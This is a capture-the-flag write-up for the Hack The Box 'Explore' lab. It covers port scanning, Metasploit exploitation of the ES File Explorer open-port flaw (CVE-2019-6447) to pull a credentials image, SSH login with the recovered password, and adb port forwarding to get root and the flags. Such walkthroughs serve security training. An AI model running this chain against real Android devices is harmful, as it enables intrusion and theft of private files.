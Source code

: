 # Explore
## CVE
## Metasploit
## Android Studio
```bash

➜  ~ sudo vi /etc/hosts
Add:

10.10.10.247 explore.htb

➜  ~ rustscan -a explore.htb --ulimit 5000

PORT      STATE SERVICE      REASON
2222/tcp  open  EtherNetIP-1 syn-ack
36127/tcp open  unknown      syn-ack
59777/tcp open  unknown      syn-ack

➜  ~ mkdir ~/htb/Intro_to_Android_Exploitation/Explore
➜  ~ sudo nmap -sV -p- -T4 -oA ~/htb/Intro_to_Android_Exploitation/Explore -vv explore.htb

PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 (protocol 2.0)
5555/tcp  filtered freeciv no-response
36127/tcp open     unknown syn-ack ttl 63
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older

➜  ~ sudo nmap -Pn -sU -T4 -p1-500 -vv explore.htb

PORT    STATE         SERVICE       REASON
47/udp  open|filtered ni-ftp        no-response
99/udp  open|filtered metagram      no-response
139/udp open|filtered netbios-ssn   no-response
140/udp open|filtered emfis-data    no-response
292/udp open|filtered unknown       no-response
301/udp open|filtered unknown       no-response
338/udp open|filtered unknown       no-response
357/udp open|filtered bhevent       no-response
384/udp open|filtered arns          no-response
404/udp open|filtered nced          no-response
416/udp open|filtered silverplatter no-response
433/udp open|filtered nnsp          no-response

GoogleFu:

port 59777

Response:

'ES File Explorer Open Port Vulnerability - CVE-2019-6447'


msf6 > search ES File Explorer 4.1.9.7.4 
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show options
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set rhosts 10.10.10.247
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show actions

   Name            Description
   ----            -----------
   APPLAUNCH       Launch an app. ACTIONITEM required.
   GETDEVICEINFO   Get device info
   GETFILE         Get a file from the device. ACTIONITEM required.
   LISTAPPS        List all the apps installed
   LISTAPPSALL     List all the apps installed
   LISTAPPSPHONE   List all the phone apps installed
   LISTAPPSSDCARD  List all the apk files stored on the sdcard
   LISTAPPSSYSTEM  List all the system apps installed
   LISTAUDIOS      List all the audio files
   LISTFILES       List all the files on the sdcard
   LISTPICS        List all the pictures
   LISTVIDEOS      List all the videos

msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action LISTPICS
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show actions
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action GETFILE
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - /storage/emulated/0/DCIM/creds.jpg saved to /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg

➜  ~ sudo apt install install imagemagick
➜  ~ sudo display /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg
➜  ~ sudo cp /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg .

After realizing the picture was exceptionally large:

➜  ~ convert 20220627081015_default_10.10.10.247_getFile_271181.jpg -resize 300x300! new.jpg
➜  ~ display new.jpg 

Also needing rotation:

➜  ~ convert -rotate "90" new.jpg newer.jpg
➜  ~ display newer.jpg 

Alternatively,

➜  ~ convert 20220627081015_default_10.10.10.247_getFile_271181.jpg -resize 300x300! -rotate "90" new.jpg

Response:

Kr1sT!5h@Rp3xPl0r3!

Troubleshoot ssh connectivity issues w/ host:

➜  cd .ssh ; mkdir config ; chmod 600 config
➜  sudo vi config
Add:

Host explore.htb
    User kristi
    PubKeyAcceptedAlgorithms +ssh-rsa
    HostKeyAlgorithms +ssh-rsa

➜  ssh kr1st@explore.htb -p 2222

Alternatively,

➜  cat config

Host explore
    HostName explore.htb	
    User kristi
    PubKeyAcceptedAlgorithms +ssh-rsa
    HostKeyAlgorithms +ssh-rsa
    Port 2222

➜  ssh explore

Password authentication
(kristi@explore.htb) Password: 

:/ $ cd storage/emulated/0                                                     
:/storage/emulated/0 $ cat user.txt 

f32017174c7c7e8f50c6da52891ae250

Ctrl-C

➜  ssh -L 5555:localhost:5555 explore

Back on your local machine:

➜  tools adb connect localhost:5555
➜  tools adb shell
x86_64:/ $ su          
:/ # cat /storage/emulated/0/user.txt

f32017174c7c7e8f50c6da52891ae250

:/ # cat data/root.txt   

f04fc82b6d49b41c9b08982be59338c5

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082333.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082415.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082450.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082601.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082644.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082719.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627083418.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627082039.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627091438.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627090922.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627092620.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627090335.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627090621.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627091235.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627091252.png)

#hacking
